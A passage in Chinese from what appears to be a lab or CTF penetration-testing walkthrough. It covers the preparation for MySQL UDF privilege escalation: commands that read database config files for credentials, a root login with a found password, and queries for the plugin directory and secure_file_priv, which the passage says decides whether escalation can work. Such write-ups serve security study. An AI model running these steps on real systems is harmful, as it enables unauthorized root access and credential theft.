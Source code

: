 ### <6> UDF 提权

1、www-data 权限下，发现 mysql 程序以 root 身份运行，并发现两个数据库配置文件`mysqli_connect.php`，其中/var 下目录找到的数据库登录凭据是可以成功登录数据库的

```bash
ps -ef | grep mysql
cat /var/www/mysqli_connect.php
cat /var/mysqli_connect.php


mysql -uroot -proot@ISIntS
mysql> select @@version;
mysql> show variables like '%plugin%';
mysql> show variables like '%compile%'; 
mysql> select * from mysql.func;

whereis lib_mysqludf_sys.so
whereis lib_mysqludf_sys_32.so
whereis lib_mysqludf_sys_64.so
```

[![](assets/1703831504-b77aad244687b6026318b391525e106a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164043-9f0aba0a-a493-1.png)

2、信息整理。  
导入导出权限查看（secure\_file\_priv 为空，导入导出文件无限制）  
mysql 架构信息查看（x86\_64）  
plugin 目录位置（/usr/lib/mysql/plugin）

```bash
//secure_file_priv 为 NULL，表示限制 mysqld 不允许导入导出文件，此时无法提权
//secure_file_priv 为 /tmp/ ，表示限制 mysqld 的导入导出文件只能发生在 /tmp/ 目录下，此时无法提权
//secure_file_priv 没有值，表示不对 mysqld 的导入导出文件做限制，此时可提权
```

[![](assets/1703831504-e03fff4e78881e182510cfb65fb0aac7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164051-a3ed050a-a493-1.png)
